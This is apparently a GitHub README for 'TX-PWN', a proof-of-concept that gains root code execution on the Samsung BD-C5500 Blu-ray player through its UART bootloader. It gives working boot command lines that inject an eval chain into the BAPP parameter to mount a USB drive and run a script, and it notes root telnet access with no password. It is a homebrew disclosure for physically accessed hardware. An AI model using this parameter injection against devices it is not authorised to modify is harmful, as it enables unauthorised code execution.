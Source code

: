 # TX-PWN

The Samsung Blu-Ray player BD-C5500 contains a vulnerability in its bootloader (present in the latest available firmware) that allows arbitrary code execution through the UART interface by issuing a carefully crafted boot command.
This method REQUIRES an ext3 USB, an ethernet cable and UART access

# How it works

The BD-C5500's Linux system executes a script called rcS located in /etc/init.d/ during boot. 
This script interprets several boot parameters that can influence the system's behavior.
Here is an excerpt from the original rcS script:
<pre>
#########################################################################


####vvvv####vvvv#################################################
# BRCM VARIABLES THAT CAN BE SET ON BOOT PARAM LINE
####vvvv####vvvv#########################################vvvv####
#
# BDVD_BOOT_AUTOSTART 
#    This is more of a "mode" than a variable setting. When 
#    set to 'y', it directs this script to go into "production"
#    mode settings.  See the actual code below for what the
#    actual settings are.  Note that this "mode" will not 
#    set any variable that already has a non-null value.
#
# BQ
#    BQ is an acronym for 'Broadcom Quiet'.  When set to 'y'
#    it squelches most of the console output from this script.
#    Note that if you want the Linux kernel to be quiet, you 
#    should specify  'quiet' on the boot line.  
#
# BNET 
#    If this is set to a 'y', the network will be brought up.
#
# BNET_DLY
#    Delays the network bringup by ${BNET_DLY} seconds. If
#    not set, there is no delay.
#
# BAPP  
#    Specifies a program to run at the end of this script.
#    If BAPP is null, no program is started.
#
# BAPP_OUT 
#    Specifies a file to store the Application output, both
#    stdout and stderr.  By default, ${BAPP} output will be 
#    redirected to /tmp/app.out.
#
# OFE_SB
#    If this is not set to 'n', the 7620 Sideband Protocol
#    application "app_ofe_sb" will be started in the
#    background.
#
# Size of /var tmpfs file system, in kbytes.
# BTMPFS_SIZE=384  - original
BTMPFS_SIZE=640
#
# Size allocated for syslogd log, in kbyptes.  Must be a good
# deal less than BTMPFS_SIZE.
BDEVLOG_SIZE=64
####^^^^####^^^^####
</pre>
The vulnerable parameter is BAPP, which is designed to execute a single program after boot. However, this can be abused using eval to execute a chain of commands instead.
By injecting a carefully constructed payload, you can mount a USB device and execute a script from it, effectively enabling arbitrary code execution post-boot.

# How to run it
1. Connect to the UART interface
2. Press Ctrl+C during boot to enter the CFE console.
3. Insert your EXT3-formatted USB drive with stage2.sh inside and connect an Ethernet cable.
4. Set your ethernet interface to a static ip with the following ip: 192.168.1.100 
5. Run the following command:
<pre>boot -elf -z flash0.kernel1: 'root=/dev/romblock17 console=0,115200n8 BDVD_BOOT_AUTOSTART=n BAPP_OUT=/dev/console BAPP="eval sleep 10; mount -o rw /dev/sda1 /var; cd /var; sh ./stage2.sh" memcfg=384 rw'</pre>
6. On your computer in another terminal, run <pre>telnet 192.168.1.108</pre> (The telnet username is root with no password.)

If mounting /dev/sda1 fails, try using /dev/sda instead.

Once you’ve run the exploit once, stage2.sh will be copied to /mtd_down/homebrew on the BD-C5500's filesystem.
For future reboots, you can launch it directly with a simpler and faster command:
<pre>boot -elf -z flash0.kernel1: 'root=/dev/romblock17 console=0,115200n8 BDVD_BOOT_AUTOSTART=n BAPP_OUT=/dev/console BAPP="eval  cd /mtd_down/homebrew; sh ./stage2.sh" memcfg=384 rw'</pre>

To gain telnet while running the main Blu-ray application, append this to the end of either command:
<pre>cd /usr/local/bin/; ./app_player</pre>
Be sure that you added a ; to the command before it

# UART Pinout

The UART interface is located at CN7 on the BD-C5500 board.

* Pin 1 – TX

* Pin 2 – RX

* Pin 14 – GND

Baud rate: 115200 8N1

# Notes
The USB must be EXT3 if you want write access on it. This is especially useful for backing up your NAND with the following command : <pre>for n in `seq 0 21`; do nanddump -f mtd$n.dump /dev/mtd$n; done </pre>

# Credits

Thanks to the following forum thread and website, without which this Proof-Of-Concept would not have been possible:  
[https://forum.samygo.tv/viewtopic.php?t=1156&sid=b52e08820181a968ddbdb7bedea5964f](https://forum.samygo.tv/viewtopic.php?t=1156&sid=b52e08820181a968ddbdb7bedea5964f)
[https://vea.st/](https://vea.st/)

